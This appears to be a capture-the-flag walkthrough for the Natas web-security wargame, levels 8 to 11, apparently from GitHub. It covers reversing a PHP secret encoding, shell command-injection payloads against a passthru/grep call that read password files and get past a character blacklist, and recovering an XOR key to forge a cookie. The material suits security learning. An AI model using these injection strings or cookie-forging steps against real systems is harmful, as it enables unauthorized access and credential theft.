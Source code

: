 ## Level 8
1. Go to the source code where it shows how the secret is being compared:
```
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}
```
2. Decrypt `$encodedSecret` by running PHP command:
```
print(base64_decode(strrev(hex2bin($encodedSecret))))
```
Where the output should be teh secret key: `oubWYf2kBq`
3. Input the secret key into the form to get the password for natas9

## Level 9
1. Go to the source code where it shows a `passthru` command, which can be exploited with command injection:
```
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

The target line is:
```
passthru("grep -i $key dictionary.txt");
```

2. Passing the following payload in to the form lists out the directory:
```
; ls -a #
```

```
Output:
.
..
.htaccess
.htpasswd
dictionary.txt
index-source.html
index.php
```

3. Since we can read the directories, inject the following payload in the form to read natas10's password:
```
;cat /etc/natas_webpass/natas10 #
```

## Level 10
1. Seeing the source code, we now see that it has a blacklist for common command injection characters:
```
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
</pre>
```

2. Since the command is `passthru("grep -i $key dictionary.txt");`, we can attempt to grep the password file for natas11 by injecting the following payload:
```
. /etc/natas_webpass/natas11
```

The command will grep any character from the natas11 password file and dictionary.txt
```
passthru("grep -i . /etc/natas_webpass/natas11 dictionary.txt");
```

3. After injecting the payload into the form, the natas11 password should be displayed

## Level 11
1. In the source code, it shows that the cookie stores password but is XOR encrypted with a secret key:
```

$defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

...

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}
```

The `data` cookie has a value of `HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg=` by default. And we can see that the `showpassword` field is set to `no` by default. We need to bake a cookie that has `showpassword` as `yes`

2. Since XOR encryption is symmetrical, we can XOR encypt using the JSON encoded default array as the key in order to find the actual key:

```
function xor_encrypt($in) {
    $key = json_encode(array( "showpassword"=>"no", "bgcolor"=>"#ffffff"));
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

print(xor_encrypt(base64_decode('HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg=')))
```

The output is `eDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoeDWoe` which we can extract the key to be `eDWo`

3. Bake a new cookie where the `showpassword` field is `yes`:
```
<?php

$defaultData = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = "eDWo";
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

echo base64_encode(xor_encrypt(json_encode($defaultData)));

?>
```

The baked cookie: `HmYkBwozJw4WNyAAFyB1VUc9MhxHaHUNAic4Awo2dVVHZzEJAyIxCUc5`

4. Replace the cookie in the storage and refresh to see to the password for natas12

